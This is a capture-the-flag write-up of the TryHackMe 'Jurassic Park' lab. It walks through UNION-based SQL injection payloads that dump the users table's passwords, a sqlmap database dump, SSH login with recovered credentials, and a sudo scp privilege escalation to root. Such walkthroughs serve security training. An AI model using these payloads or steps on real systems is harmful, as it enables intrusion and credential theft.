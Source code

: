 ```yaml
---
date: 2025-01-09
categories: [CTF, THM]
title: "THM - Jurassic Park"
tags: ['nmap', 'privilege escalation', 'python', 'rce', 'sqli']

description: "Jurassic Park - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Jurassic Park

NMAP

![image1](../resources/0d8486104815498dbb69eb0d08f9f0ce.png)

Website
<http://10.10.204.254/shop.php>

![image2](../resources/45ff848e4e2144b08d81a73bf66b9f3a.png)

- Clicking on one gives the following URL:
<http://10.10.204.254/item.php?id=3>

- If you remove the ?id=3 it results in:

![image3](../resources/f143690100104fe89cef2b27c46b7d6a.png)

- So we know it's MySQL

- Attempting to break it
[http://10.10.204.254/item.php?id=3'](http://10.10.204.254/item.php?id=3)

or using Union

<http://10.10.204.254/item.php?id=3> UNION SELECT 1 --


![image4](../resources/73d44746390b456287aab5787447fd81.png)


![image5](../resources/1ad2d0b6688546db8b2fe5c0735fd687.png)

- I randomly changed the id=100
<http://10.10.204.254/item.php?id=100>


![image6](../resources/912e630cebc14b458a3866468a8818e7.png)

Compared to (normal request ie. id=1):


![image7](../resources/31a7e397bc2d46e4a6cfd4c76ac26ece.png)

- Fuzzing the id field ?id=5
<http://10.10.204.254/item.php?id=5>


![image8](../resources/26983266b6fa45548a59b591a4548c36.png)

<http://10.10.204.254/item.php?id=5> union select 1


![image9](../resources/b8c49afcc66540ed87671ed2043f9e6a.png)

```bash
union select 1,2,3,4,5

```

![image10](../resources/d7a3af7b686c4cb7878bd5940a5c5ca5.png)

- 2 and 4 are being reflected so:
```bash
union select 1,database(),3,version(),5

```

![image11](../resources/a2527e647a984555a29acdf0855d8e6c.png)


![image12](../resources/09bc127294704ff9b5b1dc4fad73f19e.png)

- Fetch the users table from the database

```bash
?id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"

```

![image13](../resources/4f29f6b27b164a3d88c4625aff32b250.png)

- Get column passwords from the table

```bash
?id=1 union select 1,2,3,password,5 from users

```

![image14](../resources/bcb29cdb94da432a9f681737285eba68.png)

- But it dared me to use SQLMap so...

- Open Burp and capture the request. Save the request to a file (burp)


![image15](../resources/e203c5678a324f6f9d0ff7cfaf21b647.png)

- Run SQLMap:
```bash
sqlmap -r burp --batch

```
- Found the following injection points:

![image16](../resources/b522cbfca79e43ff8d559b8bf7b8c3be.png)

- Or just dump the database (more noisy):
```bash
sqlmap -r burp --batch --dump

```

![image17](../resources/623dc3a0492240c188eba816bb16c36a.png)


![image18](../resources/e3e7e9b6bd3444ba8b48bfb6ef2a53ae.png)

**Dennis : ih8dinos**

- SSH with the credentials:
```bash
ssh dennis@10.10.204.254

```
- Enumeration:

```bash
sudo -l

```

![image19](../resources/3de621fb681d4d3bbde25c06b18bd1ed.png)

- We can run scp as sudo

- GTFOBins


![image20](../resources/8f9b2b08eeb1490eb1286d51671eddf9.png)


![image21](../resources/b635569cb6d54129be10089ed47bba69.png)

- Got Root

![image22](../resources/1b6e1e41bc804d6d9db55a4f46f4e11e.png)

- Stabilise:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image23](../resources/0196f74cfb104313b16a28f7840ebe7f.png)

- Search for flags
```bash
find / -name "flag\*" 2>/dev/null

```

![image24](../resources/b138f792a58e488283c75ffb24c7258c.png)


![image25](../resources/da975e6f85094c7493e8d327b1d95aa9.png)

- Found flag3 in:
/home/dennis/.bash_history